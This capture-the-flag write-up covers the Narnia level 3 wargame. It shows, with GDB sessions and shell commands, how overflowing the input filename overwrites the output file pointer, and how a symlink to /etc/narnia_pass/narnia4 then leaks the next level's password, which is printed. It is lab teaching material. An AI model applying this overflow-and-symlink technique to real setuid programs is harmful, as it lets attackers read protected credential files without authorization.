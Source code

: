 So, the source looks complex but it's not. In fact there is no boundary check on the input file. So, if we overflow **ifile**, we could overwrite the **ofile** which is statically intialized with **/dev/null**.

Let's check the value of **ofile** with GDB, to do that we need to place a breakpoint here :

```nasm
   0x0804855f <+84>:	add    esp,0x8
   0x08048562 <+87>:	push   0x2
   0x08048564 <+89>:	lea    eax,[ebp-0x18]
   0x08048567 <+92>:	push   eax
   0x08048568 <+93>:	call   0x80483c0 <open@plt> ; Right Here
```

As **ofile** pointer will be place in **EAX** we can see its value :

```nasm
$ gdb narnia3

(gdb) break *main+93
Breakpoint 1 at 0x8048568
(gdb) run test
Starting program: /narnia/narnia3 test

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd690:	"/dev/null"
```

Okay, now we restart the program with 32 bytes of garbage and add a new path...

```nasm
(gdb) run /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia3 /AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/whatever

Breakpoint 1, 0x08048568 in main ()
(gdb) x/s $eax
0xffffd660:	"/whatever"
``` 

Awesome ! Now, we can write where we want. As **/tmp/** is read/write/exec we can create something like **/tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp** and create a *symbolic link* of **/etc/narnia_pass/narnia4** to **/tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax** file so the program can write the password into our file. 

Here are the steps :

```bash
narnia3@narnia:/narnia$ mkdir -p /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp
narnia3@narnia:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
narnia3@narnia:/narnia$ touch /tmp/ax
narnia3@narnia:/narnia$ chmod 777 /tmp/ax
narnia3@narnia:/narnia$ ./narnia3 /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax
copied contents of /tmp/FOOBARFOOBARFOOBARFOOBARFOO/tmp/ax to a safer place... (/tmp/ax)
narnia3@narnia:/narnia$ cat /tmp/ax
thaenohtai
```
